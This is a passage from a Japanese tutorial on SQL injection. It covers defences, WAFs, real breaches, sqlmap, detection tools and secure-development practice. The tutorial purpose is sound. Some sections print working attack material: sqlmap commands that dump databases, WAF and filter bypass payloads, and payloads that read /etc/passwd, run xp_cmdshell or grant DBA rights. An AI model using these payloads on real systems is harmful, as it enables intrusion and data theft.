- `DROP TABLE` 攻撃を防止できる（DROP権限がないため）
- `INTO OUTFILE` によるファイル書き出しを防止できる（FILE権限がないため）
- `xp_cmdshell` によるOSコマンド実行を防止できる（適切な権限制限がある場合）
- データの窃取範囲を限定できる（不要なテーブルへのアクセスを遮断）

これはSQLインジェクション自体を防ぐ手法ではないが、攻撃が成功した場合の被害を大幅に限定する。

### 6.7 WAF（Web Application Firewall）

WAFはHTTPリクエストを監視し、SQLインジェクションの疑いがあるリクエストをブロックする防御層である。AWS WAF、Cloudflare WAF、ModSecurity（オープンソース）などが代表的な製品である。

```
HTTP Request → [WAF] → Application → Database
                 |
                 v
          Pattern matching:
          - UNION SELECT
          - OR 1=1
          - DROP TABLE
          - ' OR '
          → Block suspicious requests
```

WAFの利点と限界：

**利点**:
- アプリケーションコードの修正なしに導入できる
- 既知の攻撃パターンを広くカバーする
- ゼロデイ攻撃に対する一定の防御を提供する
- ログ収集とアラートの機能を持つ

**限界**:
- 誤検知（正当なリクエストのブロック）と検知漏れが不可避である
- WAFのバイパス技法は多数存在する（エンコーディングの変換、コメント挿入、大文字小文字の混在など）
- アプリケーションの文脈を理解できないため、精密な判定が困難
- パフォーマンスオーバーヘッドが生じる

WAFはあくまで**補助的な防御層**であり、プリペアドステートメントの代替にはならない。しかし、レガシーシステムの保護や、多層防御の一環としては有効である。

### 6.8 防御手法の優先順位



最も重要なのは、**コードレベルでの根本的な対策（プリペアドステートメント）を徹底すること**であり、WAFや入力バリデーションはあくまで補助的な防御層として位置づけるべきである。

## 7. 実世界の重大インシデント

SQLインジェクションは理論上の脅威ではない。過去に数多くの重大なセキュリティインシデントの原因となってきた。

### 7.1 Heartland Payment Systems（2008年）

2008年、米国の決済処理大手Heartland Payment Systemsが大規模なデータ侵害を受けた。攻撃者Albert Gonzalezらは、SQLインジェクションを起点としてHeartlandのネットワークに侵入し、約1億3,000万件のクレジットカード情報を窃取した。

攻撃の流れは以下の通りであった。

1. HeartlandのWebアプリケーションにSQLインジェクション脆弱性を発見
2. SQLインジェクションを通じてマルウェアを設置
3. マルウェアが決済処理システムのネットワークトラフィックを傍受
4. クレジットカードデータを外部に送信

この事件は、当時史上最大規模のクレジットカードデータ侵害となった。Heartlandは約1億4,000万ドルの賠償金を支払い、一時的にPCI DSS準拠企業のリストから除外された。主犯のGonzalezは懲役20年の判決を受けた。

この事件は、SQLインジェクションの脆弱性が「入口」として利用され、そこから連鎖的に深刻な侵害に発展する典型的なパターンを示している。

### 7.2 Sony Pictures（2011年）

2011年、ハクティビスト集団LulzSecがSony Picturesのウェブサイトに対してSQLインジェクション攻撃を実行し、約100万人分のユーザーアカウント情報（ユーザー名、パスワード、メールアドレス、住所、生年月日）を窃取・公開した。

特に衝撃的だったのは、パスワードが平文のまま保存されていたことが発覚した点である。SQLインジェクション脆弱性とパスワードの平文保存という二重のセキュリティ不備が、被害を拡大させた。

LulzSecは攻撃の容易さを公に嘲笑し、「"We accessed it with a very simple SQL injection attack."（非常に単純なSQLインジェクション攻撃でアクセスした）」と声明を出した。

### 7.3 TalkTalk（2015年）

英国の通信大手TalkTalkは、2015年にSQLインジェクション攻撃により約15万人の顧客データ（氏名、住所、生年月日、メールアドレス、電話番号、銀行口座情報の一部）を漏洩した。

攻撃者は当時15歳から17歳のティーンエイジャーで、高度な技術力なしに既知のSQLインジェクション脆弱性を悪用した。TalkTalkは英国データ保護法の下で40万ポンドの罰金を科された。この事件は、SQLインジェクションが高度な攻撃ではなく、初歩的なスキルでも実行可能であることを社会的に示した事例として重要である。

### 7.4 インシデントから学ぶ教訓

これらのインシデントに共通する教訓は以下の通りである。

- SQLインジェクションは「理論上の」脅威ではなく、現実に大規模な被害をもたらす
- 攻撃の技術的難易度は低く、自動化ツールの存在によりさらに容易になっている
- 一つの脆弱性が連鎖的な侵害の起点となり得る
- 被害額（罰金、賠償、ブランド毀損）は防御コストを桁違いに上回る
- 基本的なセキュリティ対策（プリペアドステートメント、パスワードのハッシュ化）の欠如が根本原因である

## 8. 攻撃ツール：sqlmap

### 8.1 sqlmapの概要

sqlmapは、SQLインジェクション脆弱性の検出と悪用を自動化するオープンソースの侵入テストツールである。2006年にDaniele Bellucci とBernardo Damele A. G.によって開発が始まり、現在も活発にメンテナンスされている。

sqlmapが対応する攻撃手法：

- Boolean-Based Blind
- Time-Based Blind
- Error-Based
- UNION-Based
- Stacked Queries（複数クエリの実行）
- Out-of-Band

対応するデータベース：MySQL、PostgreSQL、Oracle、Microsoft SQL Server、SQLite、IBM DB2、SAP MaxDB、MariaDB、その他多数。

### 8.2 基本的な使用方法

```bash
# Basic scan: Test a URL parameter for SQL injection
sqlmap -u "http://example.com/page?id=1"

# Specify the parameter to test
sqlmap -u "http://example.com/page?id=1" -p id

# POST request with form data
sqlmap -u "http://example.com/login" --data="username=admin&password=test"

# Enumerate databases
sqlmap -u "http://example.com/page?id=1" --dbs

# Enumerate tables in a specific database
sqlmap -u "http://example.com/page?id=1" -D targetdb --tables

# Dump data from a specific table
sqlmap -u "http://example.com/page?id=1" -D targetdb -T users --dump

# Test with specific technique (e.g., time-based only)
sqlmap -u "http://example.com/page?id=1" --technique=T

# Increase verbosity for debugging
sqlmap -u "http://example.com/page?id=1" -v 3
```

### 8.3 sqlmapの検出能力

sqlmapはペイロードの自動生成、WAFの検出とバイパス、文字エンコーディングの処理、データベースのフィンガープリント（種類とバージョンの特定）などを高度に自動化している。手動テストでは見逃しがちなBlind SQLインジェクションの検出にも優れている。



### 8.4 防御側の視点

sqlmapの存在は、防御側にとって重要な示唆を持つ。SQLインジェクション脆弱性が一つでも存在すれば、攻撃者はsqlmapを使って数分でデータベース全体の内容を抽出できる。手動での試行が必要だった時代と異なり、攻撃のハードルは極めて低い。

したがって、セキュリティ評価（ペネトレーションテスト）においてsqlmapを自組織のアプリケーションに対して実行し、脆弱性がないことを定期的に確認することは、防御側としても有効なアプローチである。ただし、許可なく他者のシステムに対して使用することは違法であることを銘記する必要がある。

## 9. 検出手法

### 9.1 静的解析（SAST）

静的アプリケーションセキュリティテスト（SAST）は、ソースコードを解析してSQLインジェクション脆弱性を検出する手法である。コードが実行される前の段階で脆弱性を発見できるため、開発プロセスの早期に問題を修正できる。

代表的なツール：

| ツール | 対応言語 | 特徴 |
|--------|----------|------|
| SonarQube | 多言語 | CI/CDパイプラインへの統合が容易 |
| Semgrep | 多言語 | カスタムルールの記述が容易。OSSとして無料利用可能 |
| Bandit | Python | Python特化。軽量で高速 |
| SpotBugs + Find Security Bugs | Java | Java特化。バイトコードレベルの解析 |
| gosec | Go | Go特化。`database/sql` のパターンを検出 |

SASTの限界として、誤検知（false positive）が多いこと、Second-Order Injectionのような複雑な攻撃パターンの検出が困難であること、動的に構築されるクエリの解析が難しいことが挙げられる。

### 9.2 動的解析（DAST）

動的アプリケーションセキュリティテスト（DAST）は、実行中のアプリケーションに対して攻撃的なリクエストを送信し、脆弱性を検出する手法である。ブラックボックステストとも呼ばれ、ソースコードへのアクセスなしに脆弱性を発見できる。

代表的なツール：

| ツール | 概要 |
|--------|------|
| OWASP ZAP | オープンソースのWebアプリケーションスキャナー |
| Burp Suite | 商用のWebセキュリティテストプラットフォーム |
| sqlmap | SQLインジェクション特化の自動化ツール |
| Nikto | Webサーバーの脆弱性スキャナー |

DASTの利点は、実際の攻撃ベクトルを検証できること、言語やフレームワークに依存しないこと、Second-Orderを含む複雑なパターンも検出可能であることである。一方、テスト対象のアプリケーションが稼働している必要があること、テストに時間がかかること、クローリングの限界によりすべてのエンドポイントをカバーできない可能性があることが限界である。

### 9.3 ランタイム検出

アプリケーションの実行時にSQLインジェクション攻撃を検出する手法もある。

**RASP（Runtime Application Self-Protection）**: アプリケーション内部で動作し、SQLクエリの実行を監視する。プリペアドステートメントを使わずに構築されたクエリを検出したり、クエリの構造が入力によって変化することを検出したりする。

**データベース活動監視（DAM）**: データベースへのクエリをリアルタイムで監視し、異常なパターン（通常とは異なるクエリ構造、大量のデータ取得、特権操作の実行など）を検出する。

**ログ分析**: アプリケーションログやWebサーバーログを解析し、SQLインジェクションの試行を示すパターン（シングルクォートの大量出現、`UNION SELECT` の含まれるリクエスト、エラー応答の急増など）を検出する。

### 9.4 検出の多層化



効果的なSQLインジェクション対策は、開発から運用までの全段階で防御と検出の仕組みを組み合わせることで実現される。開発段階でのSASTとコードレビュー、テスト段階でのDASTとペネトレーションテスト、運用段階でのWAFとログ監視——これらを多層的に組み合わせることが重要である。

## 10. 高度な攻撃手法とバイパス技法

### 10.1 WAFバイパス

WAFはシグネチャベースの検知を行うため、攻撃ペイロードの表現を変えることでバイパスされる可能性がある。

```sql
-- Case variation
uNiOn SeLeCt username, password FROM users

-- Comment insertion
UN/**/ION SEL/**/ECT username, password FROM users

-- URL encoding
%55%4E%49%4F%4E%20%53%45%4C%45%43%54

-- Double URL encoding
%2555%254E%2549%254F%254E

-- Using equivalent functions
CONCAT(0x41,0x42) -- instead of 'AB'

-- Whitespace alternatives
UNION%09SELECT  -- tab instead of space
UNION%0ASELECT  -- newline instead of space
```

これらのバイパス技法の存在が、WAFのみに依存した防御が不十分である理由の一つである。

### 10.2 フィルター回避

アプリケーション側で特定のキーワード（`SELECT`、`UNION`、`DROP` など）をブラックリストでフィルターしている場合も、回避手法が存在する。

```sql
-- Keyword replacement bypass (if the app removes "SELECT" once)
SELSELECTECT * FROM users
-- After removal of "SELECT": SELECT * FROM users

-- Using hex encoding for strings
SELECT * FROM users WHERE username = 0x61646D696E  -- 'admin' in hex

-- Using CHAR() function
SELECT * FROM users WHERE username = CHAR(97,100,109,105,110)  -- 'admin'
```

これらの事実は、**ブラックリスト方式の入力フィルタリングは根本的な対策にならない**ことを示している。

### 10.3 データベース固有の攻撃手法

データベースごとに固有の構文や機能が存在し、それらを利用した攻撃手法がある。

**MySQL**:
```sql
-- Information schema to enumerate tables and columns
' UNION SELECT table_name, column_name FROM information_schema.columns --
-- Load file contents
' UNION SELECT LOAD_FILE('/etc/passwd'), NULL --
```

**PostgreSQL**:
```sql
-- System catalog access
' UNION SELECT tablename, NULL FROM pg_tables --
-- Large object operations for file access
SELECT lo_import('/etc/passwd');
```

**SQL Server**:
```sql
-- Linked server access for lateral movement
'; EXEC sp_linkedservers; --
-- System stored procedures
'; EXEC xp_cmdshell 'net user'; --
```

**Oracle**:
```sql
-- Dictionary views for schema enumeration
' UNION SELECT table_name, NULL FROM all_tables --
-- PL/SQL execution
'; EXECUTE IMMEDIATE 'GRANT DBA TO attacker'; --
```

## 11. 開発プロセスにおけるセキュリティ統合

### 11.1 セキュアコーディング規約

SQLインジェクション対策をチームの開発規約に組み込むことは、個人の注意力に依存するよりも確実な防御策である。

```
[SQLインジェクション防止のための開発規約]

□ すべてのSQLクエリはプリペアドステートメントで構築する
□ ORMのraw SQLインターフェースを使用する場合もパラメータバインドを使用する
□ テーブル名・カラム名が動的な場合はホワイトリストで検証する
□ エラーメッセージにデータベースの内部情報を含めない
□ データベース接続アカウントには最小権限を付与する
□ コードレビューでSQLインジェクションのチェック項目を含める
□ CI/CDパイプラインにSASTツールを組み込む
```

### 11.2 エラーハンドリング

本番環境では、データベースのエラーメッセージをそのままユーザーに表示してはならない。Error-Based SQLインジェクションの情報源を断つためである。

```python
# VULNERABLE: Exposes internal error details
@app.route("/user")
def get_user():
    try:
        user_id = request.args.get("id")
        user = db.execute("SELECT * FROM users WHERE id = ?", (user_id,)).fetchone()
        return jsonify(user)
    except Exception as e:
        # NEVER return raw exception details to the client
        return jsonify({"error": str(e)}), 500

# SECURE: Generic error message with internal logging
@app.route("/user")
def get_user():
    try:
        user_id = request.args.get("id")
        user = db.execute("SELECT * FROM users WHERE id = ?", (user_id,)).fetchone()
        return jsonify(user)
    except Exception as e:
        # Log the full error for debugging
        app.logger.error(f"Database error: {e}")
        # Return a generic error to the client
        return jsonify({"error": "An internal error occurred"}), 500
```

### 11.3 セキュリティテストの自動化

CI/CDパイプラインにセキュリティテストを組み込むことで、脆弱性の早期発見と継続的な監視を実現する。

```yaml
# Example: GitHub Actions workflow with security scanning
name: Security Scan
on: [push, pull_request]

jobs:
  sast:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Run Semgrep
        uses: semgrep/semgrep-action@v1
        with:
          config: >-
            p/sql-injection
            p/owasp-top-ten
      - name: Run Bandit (Python)
        run: |
          pip install bandit
          bandit -r src/ -t B608  # B608: SQL injection test
```

## 12. まとめ

SQLインジェクションは、Webセキュリティにおいて最も古く、最も理解され、それでいて最も根絶が困難な脆弱性の一つである。その根本原因は、コード（SQL構文）とデータ（ユーザー入力）の混同という単純な問題に帰着する。

**防御の核心はプリペアドステートメントである。** パラメータ化クエリを徹底することで、SQLインジェクションは構文レベルで不可能になる。ORMを使用している場合でも、raw SQLインターフェースには同様の注意が必要である。

防御は多層化すべきである。プリペアドステートメントを基盤とし、入力バリデーション、最小権限の原則、WAF、エラーメッセージの制御、ログ監視を組み合わせた多層防御（Defense in Depth）が、現実的なセキュリティ態勢である。

四半世紀以上の歴史を持つこの脆弱性が今もなお現役であるという事実は、技術的な問題よりも人間的・組織的な問題——教育の不足、レガシーコードの放置、セキュリティへの投資不足——が根本にあることを示唆している。SQLインジェクションは、技術の問題というよりも、**技術をどう使うかという人間の問題**である。
